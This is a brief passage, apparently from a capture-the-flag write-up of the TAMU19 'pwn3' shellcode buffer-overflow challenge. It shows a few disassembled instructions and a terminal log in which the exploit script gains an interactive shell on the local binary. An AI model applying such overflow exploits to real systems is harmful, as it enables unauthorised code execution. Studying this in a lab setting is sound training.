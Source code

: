 ```bash
   0xffd952ab                  inc    ecx
   0xffd952ac                  inc    ecx
   0xffd952ad                  inc    ecx

```

After the system call is executed  we have a shell in the terminal:

```bash
root-at-iyn@Ubuntu-220403-x86-64:~/Nightmare/BufferOverflow/ShellCode/Pwn3$ python3 exploit_pwn3.py
[+] Starting local process './pwn3': pid 33223
[*] Switching to interactive mode

$ ls
exploit_pwn3.py  pwn3  tamu19_pwn3.md
$ date
Fri Sep 12 16:27:15 BST 2025
```

